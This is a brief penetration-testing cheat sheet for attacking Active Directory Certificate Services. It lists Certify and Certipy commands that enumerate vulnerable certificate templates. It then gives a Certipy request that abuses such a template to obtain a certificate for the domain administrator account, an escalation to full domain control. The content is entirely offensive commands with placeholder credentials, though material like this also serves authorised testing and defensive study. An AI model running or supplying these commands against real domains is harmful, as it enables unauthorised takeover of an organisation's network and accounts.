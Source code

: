 Windows enumerate vulnerable certificates
- `certify.exe find domain.local/user:pass@domain.local -vulnerable`
Linux enumerate vulnerable certificates
- `certipy-ad find -u 'user' -p 'pass' -dc-ip '127.0.0.1' -vulnerable -stdout`
Request vulnerable certificate for admin
- `certipy-ad req -u 'user' -p 'pass' -dc-ip '127.0.0.1' -ca 'DOMAIN-CA' -target 'dc.local' -template 'VULN-TEMPLATE' -upn 'administrator@domain.local' -ns '127.0.0.1'`
